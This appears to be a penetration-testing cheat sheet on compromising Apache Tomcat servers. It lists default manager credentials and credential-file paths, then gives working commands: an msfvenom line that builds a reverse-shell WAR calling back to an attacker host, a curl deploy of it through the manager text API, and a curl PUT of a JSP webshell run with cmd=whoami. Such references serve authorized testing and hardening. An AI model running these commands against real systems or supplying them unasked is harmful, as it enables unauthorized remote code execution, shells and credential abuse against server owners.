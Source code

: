 # Tomcat

## Default credentials

{% code overflow="wrap" %}
```sh
# The most interesting path of Tomcat is /manager/html, inside that path you can upload and deploy war files (execute code). 

# But this path is protected by basic HTTP auth, the most common credentials are:
admin:admin
admin:tomcat
admin:<NOTHING>
admin:s3cr3t
admin:s3cret
tomcat:s3cr3t
tomcat:tomcat
tomcat:<NOTHING>
tomcat:s3cret
```
{% endcode %}

## Credential files

```
/etc/tomcat7/tomcat-users.xml
/var/lib/tomcat7/conf/tomcat-users.xml

C:\Program Files\Apache Software Foundation\Tomcat 9.0\conf
C:\Program Files (x86)\Apache Software Foundation\Tomcat 8.0\bin
```

## Exploits

{% embed url="https://www.exploit-db.com/exploits/42953" %}

## WAR upload

#### **Since our tomcat user only has the manager-script role, and not the usual manager-gui role, we can use only use the tomcat /manager/text/… scripting api.**

{% code overflow="wrap" fullWidth="true" %}
```bash
# First, we’ll need a reverse shell inside of a WAR file. Msfvenom will get the job done
msfvenom -p java/shell_reverse_tcp lhost=x.x.x.x lport=xxxx -f war -o pwn.war

# Upload the WAR file:
curl -v -u 'tomcat:$pass' --upload-file pwn.war 'http://x.x.x.x:8080/manager/text/deploy?path=/foo&update=true'

# Finally, go to http://$IP:8080/foo to trigger the reverse shell.
```
{% endcode %}

## JSP webshell

```bash
curl -u admin:admin -v -X PUT --data @cmd.jsp $PATH

# Upload a .jsp webshell then visit $PATH/cmd.jsp?cmd=whoami
```

## Windows (host-manager variant)

[https://www.certilience.fr/2019/03/tomcat-exploit-variant-host-manager/](https://www.certilience.fr/2019/03/tomcat-exploit-variant-host-manager/)
